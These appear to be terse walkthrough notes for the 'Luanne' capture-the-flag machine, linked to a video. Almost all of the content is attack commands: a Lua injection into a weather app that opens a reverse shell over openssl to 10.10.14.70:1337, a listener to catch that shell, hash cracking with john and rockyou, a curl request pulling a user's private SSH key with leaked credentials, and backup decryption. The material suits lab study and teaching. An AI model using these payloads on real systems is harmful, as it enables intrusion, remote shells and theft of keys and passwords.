```yaml
---
description: 'Notes for https://youtu.be/TlFmnbEAi1s'
---
```


# Luanne

## User

### Weather app injection

```text
'+..+os.execute("mkfifo+/tmp/s%3b+/bin/sh+-i+<+/tmp/s+2>%261+|+openssl+s_client+-quiet+-connect+10.10.14.70%3a1337+>+/tmp/s%3b+rm+/tmp/s")+..+'
```

Catch openssl shell:

```text
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 1337
```

### Crack hash from .htpasswd

```text
john -w=~/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt hash
```

### Request private key

```text
curl http://webapi_user:iamthebest@localhost:3001/~r.michaels/id_rsa
```

## Root

### Decrypt

```text
netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc
```

